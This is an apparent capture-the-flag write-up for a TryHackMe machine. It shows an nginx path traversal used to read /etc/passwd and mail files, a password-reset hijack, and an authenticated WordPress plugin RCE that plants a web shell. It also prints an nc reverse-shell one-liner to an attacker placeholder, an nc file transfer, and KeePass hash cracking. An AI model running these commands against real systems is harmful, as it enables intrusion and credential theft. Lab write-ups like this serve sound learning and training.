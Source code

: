 
> [!NOTE] Quote
> Everything I lose, creates space for everything I need.

Tags: #Boot2root #tryhackme 
### Recon

During recon we find that a nginx welcome page is running on port 80.
### Enumeration 

On using dirsearch, The output revealed the presence of a **WordPress installation**.

I navigated to `/wordpress/` and found a broken or improperly configured WordPress site. While hovering over some random links on the page, I noticed that they pointed to `mountaineer.thm`, suggesting the website expects a specific virtual host configuration.

Edit the `/etc/hosts` file 

run WPScan to enumerate plugins and potential vulnerabilities. The scan revealed that the site was using a plugin called Modern Events Calendar Lite, which has remote code execution vulnerability documented in exploit DB

```
wpscan --url http://mountaineer.thm/wordpress/ -e u
```


The scan revealed a total of eight users, including k2, which matched the author name found on the website.

### Nginx Off-by-Slash Vulnerability

Since I didn’t gain much from the previous steps, I revisited the dirsearch output and noticed an unusual directory: `/wordpress/images` This path stood out because it's not a standard directory in a typical WordPress installation (or at least not one that usually exposes anything meaningful). When I tried to access the page, it returned a `403` Forbidden error

On intercepting the request and manipulating the path to attempt accessing sensitive files, such as:

```
/wordpress/images../etc/passwd
```

The response returned the contents of `/etc/passwd`, confirming a path traversal vulnerability due to improper handling of URL paths in the web server configuration.

fuzz the vulnerable endpoint to identify other accessible files. I used [[ffuf]] with a wordlist targeting common LFI paths and saved the output to a file:
```sh
ffuf -u 'http://mountaineer.thm/wordpress/images..FUZZ' \
     -w /usr/share/seclists/Fuzzing/LFI/LFI-linux-and-windows_by-1N3@CrowdShield.txt \
     -mc 200 -o fuzz.txt
     ```

This command searches for any valid LFI payloads that return a 200 OK response, indicating a successful file read.

To extract only the working paths from the output, I used:

```sh
cut -d'  ' -f1 fuzz.txt > burp_wordlist.txt
```

This generated a clean list of payloads, which can further be used in burp intruder for automating testing.

### Password Reset 

Inside `/var/mail/www-data`, I found an email containing a password reset link for the user Everest.

> However, when I visited the link, it had already expired. The reset page indicated that I could request a new password reset by submitting a username. This gave me an idea — what if I used this same functionality to reset the password for the admin account?

I submitted the username `admin`, and the site responded by saying a reset link had been sent to the registered email.

To intercept that link, I returned to BurpSuite Intruder, using the same [[LFI]] payloads to monitor for new entries in the webmail logs. After scrolling to the bottom of the response from `/var/mail/www-data`, I found a new password reset link , this time for the admin user. Click the link and reset the password 

While reviewing the responses from BurpSuite Intruder, one of the LFI payloads successfully retrieved `/var/log/lastlog`, which contained entries revealing a `hostname:adminroundcubemail.mountaineer.thm`. I added the hostname to my` /etc/hosts `file to resolve it locally, on visiting the domain, I was redirected to a Roundcube webmail login page.

### Roundcube Webmail

The page prompted for a username and password, so I initially attempted default credentials like `admin:admin`, but that didn’t work. Recalling that the admin’s display name in the article was previously identified as K2, I tried logging in with `K2:k2 `— and it worked.

After logging in as K2 we find an email in the inbox containing passwords for K2's account 
, also found in the sent folder a message addressed to a user named Lhotse. The email included several personal details about Lhotse, such as first name, surname, and other identifying information.

> This immediately reminded me of how data is typically structured when using [CUPP](https://github.com/Mebus/cupp) (Common User Passwords Profiler) — a tool that generates personalized wordlists based on user information

#### Exploiting CVE-2021–24145

Earlier I recalled that the site was running a vulnerable plugin:` Modern Events Calendar Lite.` Exploit-DB had a working exploit for authenticated Remote Code Execution.

Since I already had valid admin credentials from earlier enumeration, I used them to log in and run the exploit. It successfully uploaded a web shell (shell.php) to the target server.

The shell used was p0wny@shell, confirming that the exploit worked and we had planted a basic web shell.

To gain a more stable and interactive shell, I executed the following reverse shell payload on the target:
```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc <your-ip> <your-port> > /tmp/f
```
Also setup a NC listener `nc -nlvp 4444`

To stabilize the shell and make it interactive, I **ran**
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

Ctrl + Z

stty raw -echo; fg

ENTER
ENTER
```

### Cracking KeePass and Lateral Movement

discovered a user directory at `/home/lhotse` containing an interesting file: `backup.kdbx`, which is a KeePass database file.

transfer the file to yo own machine 
On the victim machine:
```sh
nc <your-ip> <your-port> < Backup.kdbx
```
On the attacker machine:
```sh
nc -lvnp <your-port> > Backup.kdbx
```

Inside the database, I browsed through the entries and found Entry 3, which contained credentials for the user `kangchenjunga`.Cracking the KeePass File
#### making a custom wordlist 

To access the contents of `Backup.kdbx`, I needed to crack its master password. I used `keepass2john` to extract the hash:

```
keepass2john Backup.kdbx > hash.txt
```

Then, I attempted to crack it with John the Ripper using common wordlists like rockyou.txt, but none of them worked

I recalled that the file was located under `lhotse’s` home directory, and based on earlier enumeration, I had access to Roundcube webmail data linked to this user. So I used that contextual information to generate a custom wordlist using `CUpp` (Common User Passwords Profiler):

> I filled in details gathered from Roundcube, such as the user’s full name, email, birthday, etc.

```
john hash.txt --wordlist=file.txt
```

##### KeePass CLI

After successfully cracking the KeePass password, I used `Kpcli` (KeePass CLI) to open the `Backup.kdbx` file. I entered the cracked password, and it worked. Browse around and find the pass for the user 

Try logging in as `kangchenjunga` via ssh. Get the first flag
### Privilege Escalation

Type `ls -la`, we find a file name `bash_history` and on opening that file we see the root password in plain text


### References

https://blog.devops.dev/mountaineer-ctf-tryhackme-writeup-c46a267387e5